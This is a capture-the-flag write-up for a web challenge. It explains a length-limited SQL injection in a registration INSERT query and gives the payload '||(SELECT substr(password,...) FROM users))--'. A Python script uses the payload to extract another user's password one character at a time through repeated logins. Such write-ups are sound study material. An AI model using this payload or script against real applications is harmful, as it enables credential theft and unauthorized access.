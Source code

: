 The injectable query is an `INSERT` statement. One thing to note is that the password must be less than 50 characters long, thus limiting the length of our SQL injection. The process to extract ginkoid's password is the following:

1. Create a new user with any username and a password that is one character of ginkoid's password at some index i, starting with i=0.
    - This can be done by injecting a sub-query that selects ginkoid's password from the `user` table and taking a substring at index i of length 1.
    
    - The following injection works to create the password `'||(SELECT substr(password,1,1) FROM users))--`.

2. Do a blind SQL injection on the newly created user. Iterate through each alphanumeric character and try to log in. When you log in successfully, you know the character that is at index i of ginkoid's password.

3. Repeat this process 32 times, incrementing i by 1 each time. Gradually extract ginkoid's password one character at a time.

I wrote the following script to automate this process:

```python
import requests

allowed_chars = list('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789')

def main():
	user_prefix = "deadbeef"
	endpoint = "https://cool.mc.ax/"
	
	password = ""
	
	for i in range(1,33):
		current_user = user_prefix + allowed_chars[i]
		
		print("creating user " + current_user)
		
		obj = {
			'username': current_user,
			'password': f"'||(SELECT substr(password,{i},1) FROM users))--"
		}
		ret = requests.post(endpoint + "register", data=obj)
		
		j = 0
		while (True):
			obj2 = {
				'username': current_user,
				'password': allowed_chars[j]
			}
			login_ret = requests.post(endpoint, obj2)
			
			if "You are logged in!" in login_ret.text:
				password += allowed_chars[j]
				print(password)
				break
			
			j += 1

main()
```
